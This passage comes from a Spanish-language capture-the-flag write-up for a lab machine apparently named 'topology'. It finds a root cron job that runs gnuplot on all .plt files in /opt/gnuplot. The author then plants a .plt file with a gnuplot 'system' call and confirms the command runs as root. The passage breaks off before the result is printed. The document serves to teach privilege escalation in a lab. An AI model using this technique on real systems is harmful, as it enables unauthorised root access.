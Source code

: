 ```bash
2025/02/16 19:05:01 CMD: UID=0     PID=3051   | /bin/sh /opt/gnuplot/getdata.sh 
2025/02/16 19:05:01 CMD: UID=0     PID=3050   | netstat -i 
2025/02/16 19:05:01 CMD: UID=0     PID=3049   | /bin/sh /opt/gnuplot/getdata.sh 
2025/02/16 19:05:01 CMD: UID=0     PID=3057   | /bin/sh /opt/gnuplot/getdata.sh 
2025/02/16 19:05:01 CMD: UID=0     PID=3056   | /bin/sh /opt/gnuplot/getdata.sh 
2025/02/16 19:05:01 CMD: UID=0     PID=3055   | grep -o load average:.*$ 
2025/02/16 19:05:01 CMD: UID=0     PID=3054   | 
2025/02/16 19:05:01 CMD: UID=0     PID=3059   | tail -60 /opt/gnuplot/loaddata.dat 
2025/02/16 19:05:01 CMD: UID=0     PID=3060   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
```

Lo primero que deberemos realizar, es comprobar que tenemos permisos de escritura en el directorio mencionado. Por lo tanto, crearemos un nuevo archivo `.txt` y le daremos los permisos de ejecución, esto para simular que podemos crear archivos.

Comprobamos que hemos logrado crear un archivo en el directorio `/opt/gnuplot` y también la capacidad de darle permisos de ejecución al archivo creado.

```bash
vdaisley@topology:/opt$ echo 'gzzco was where' > /opt/gnuplot/gzzcoo.txt
vdaisley@topology:/opt$ ls -l /opt/gnuplot/gzzcoo.txt
-rw-rw-r-- 1 vdaisley vdaisley 16 Feb 16 19:07 /opt/gnuplot/gzzcoo.txt
vdaisley@topology:/opt$ chmod +x /opt/gnuplot/gzzcoo.txt
vdaisley@topology:/opt$ ls -l /opt/gnuplot/gzzcoo.txt
-rwxrwxr-x 1 vdaisley vdaisley 16 Feb 16 19:07 /opt/gnuplot/gzzcoo.txt
```

Pensando que la tarea `CRON` que realiza la ejecución de los archivos `.plt` en dicho directorio sea `root`, tenemos una vía potencial para poder escalar privilegios.

En esta primera comprobación crearemos un archivo `gzzcoo.plt` que ejecute el comando `whoami` y redirija el output al archivo `/tmp/whoami`. Le daremos los permisos correspondientes y comprobaremos de la existencia del archivo y de que se hayan asignado los permisos correspondientes.

```bash
vdaisley@topology:/opt$ echo 'system "whoami > /tmp/whoami";' > /opt/gnuplot/gzzcoo.plt
vdaisley@topology:/opt$ chmod +x /opt/gnuplot/gzzcoo.plt
vdaisley@topology:/opt$ ls -l /opt/gnuplot/gzzcoo.plt
-rwxrwxr-x 1 vdaisley vdaisley 31 Feb 16 19:09 /opt/gnuplot/gzzcoo.plt
```

Después de un breve tiempo, comprobamos en el directorio `/tmp` que aparece el archivo creado `whoami`. Revisando el archivo, comprobamos que el comando `whoami` ha dado como resultado el usuario `root`.

Con esto, se confirma que tenemos una vía potencial de abusar de un script creado con extensión `.plt`en el directorio mencionado para que posteriormente sea ejecutado a través de la tarea `CRON` del usuario `root`.

```bash
vdaisley@topology:/opt$ ls -l /tmp
total 3064
-rwxrwxr-x 1 vdaisley vdaisley 3104768 Jan 17  2023 pspy64
drwx------ 3 root     root        4096 Feb 16 18:06 systemd-private-de1cea4b82844141bf370951bba87c3d-apache2.service-tr5Juh
drwx------ 3 root     root        4096 Feb 16 18:55 systemd-private-de1cea4b82844141bf370951bba87c3d-fwupd.service-KgLzdh
drwx------ 3 root     root        4096 Feb 16 18:06 systemd-private-de1cea4b82844141bf370951bba87c3d-ModemManager.service-twUI0h
drwx------ 3 root     root        4096 Feb 16 18:06 systemd-private-de1cea4b82844141bf370951bba87c3d-systemd-logind.service-tw6iuf
drwx------ 3 root     root        4096 Feb 16 18:06 systemd-private-de1cea4b82844141bf370951bba87c3d-systemd-resolved.service-YGF6Uf
drwx------ 3 root     root        4096 Feb 16 18:06 systemd-private-de1cea4b82844141bf370951bba87c3d-systemd-timesyncd.service-zkIJAi
drwx------ 2 root     root        4096 Feb 16 18:06 vmware-root_657-4022112241
-rw-r--r-- 1 root     root           5 Feb 16 19:10 whoami
vdaisley@topology:/opt$ cat /tmp/whoami 
```